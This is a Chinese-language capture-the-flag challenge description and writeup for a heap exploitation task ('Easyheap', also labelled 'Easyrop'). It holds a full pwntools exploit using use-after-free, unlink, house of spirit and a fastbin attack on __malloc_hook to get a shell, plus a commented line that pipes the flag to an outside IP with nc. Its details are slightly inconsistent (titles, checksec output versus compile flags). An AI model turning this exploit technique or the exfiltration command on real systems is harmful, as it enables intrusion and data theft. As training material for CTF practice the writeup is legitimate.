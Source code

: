 # Easyheap

## 题目信息：

* 题目名称：Easyrop
* 预估难度：中等
* 编译命令：gcc -O2 -fstack-protector-all -fPIE -pie  -Wl,-z,relro,-z,now easyheap.c -o easyheap

## 题目描述：

> Easyheap , so easy heap!

## 题目提示：

1. username and password
2. unlink
3. be careful

## 原始 flag 及更新命令：

```shell
    # 原始 flag
    flag{flag_test}
    # ..
    # 更新 flag 命令
    echo 'flag{85c2a01a-55f7-442a-8712-3f6908e1463a}' > /flag
```

## writeup：

检查题目保护，保护全开

```bash
# tac @ ubuntu in /mnt/hgfs/Z/build/easyrop [5:56:01] 
$ checksec easyrop 
[*] '/mnt/hgfs/Z/build/easyrop/easyrop'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

没有canary和PIE

题目存在一个很容易发现的UAF，并且限制了show

但是问题是，题目只能申请一个chunk

1. 申请大量fastbin chunk，用scanf触发malloc_conslidate 合并构造unsorted bin
2. 利用fastbin拿回chunk，并利用0xao 构造unlink
3. Double free unlink 写到.bss上利用username 和 password 构造house of spirit
4. 用fastbin 再拿回来，修改random_num，顺利leaking
5. 最后在这个UAF上edit 利用fastbin attack 写到__malloc_hook

利用链一气呵成，不算难，但是很漂亮，不非预期就好，2333

最后题目关闭了stdout，用骚操作反弹就可以或者stdin输出?

EXP如下:

```python
#!python
#-*- coding: utf-8 -*-
from pwn import *

r = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x, drop = True)
s = lambda x,y: p.sendafter(x,y)
sl = lambda x,y: p.sendlineafter(x,y)

context.log_level = 'debug'
context.terminal = ['tmux','sp','-h','-l','120']

p = process("./easyheap")
elf = ELF("./easyheap")
libc = elf.libc

def add(size,cnt):
    sl(">> ",str(1))
    sl("size\n",str(size))
    s("content\n",cnt)

def add_no_output(size,cnt):
    p.sendline(str(1))
    p.sendline(str(size))
    p.send(cnt)

def dele():
    sl(">> ",str(2))

def dele_no_output():
    p.sendline(str(2))

def show():
    sl(">> ",str(3))

def gift(choice,cnt=""):
    sl(">> ",str(666))
    s("free?",str(choice))
    if choice==1:
        s("content\n",cnt)

# house of spirit
s("username:",3*p64(0)+p64(0x41))
s("info",3*p64(0)+p64(0x20e21))

add(0x38,'\0'*0x38)
dele()
add(0x48,'\0'*0x48)
dele()
add(0x28,'\0'*0x28)
dele()
add(0x18,'\0'*0x18)
dele()
add(0x68,'\0'*0x30+p64(0)+p64(0x21)+"\0"*0x10+p64(0x20)+p64(0x101))
dele()

add(0x80,'\x00'*0x80)
add(0x28,'\0'*0x28)
dele()

sl(">> ",'1'*0x400)

payload = 2*p64(0)
payload += p64(0x602098-0x18)+p64(0x602098-0x10)
payload = payload.ljust(0x80,'\0')
payload += p64(0x80)+p64(0x90)

gift(1,cnt=payload)
dele()
gift(2)

# Leaking libc
add(0x38,p64(0)+p64(0x602080)+p64(0xdeadbeefdeadbeef))
dele()
add(0x68,'A'*0x10)
# gdb.attach(p)#'b *0x400A47\n b *'+hex(one))
show()
ru("A"*0x10)

libc.address= u64(ru("\n").ljust(0x8,'\x00'))-0x3c4b78
log.info("libc.address:"+hex(libc.address))
__malloc_hook = libc.sym['__malloc_hook']
system = libc.sym['system']

one = libc.address+0xf02a4
# ru("everything has a price\n")

# Overlap
#dele()
#add(0x80,'\x00'*0x80)
#add(0x18,p64(0)+p64(0x71)+p64(__malloc_hook-0x23))
#add(0x68,'\x00'*0x68)
#add(0x68,'\x00'*0x13+p64(one))
#dele()

pause()
dele_no_output()
pause()
add_no_output(0x80,'\0'*0x80)
pause()
add_no_output(0x18,p64(0)+p64(0x71)+p64(__malloc_hook-0x23))
pause()
add_no_output(0x68,'\0'*0x68)
pause()
add_no_output(0x68,"\0"*0x13+p64(one))

# getshell
dele_no_output()

#p.sendline("cat flag | nc 104.168.236.8 8888")

p.interactive()
```
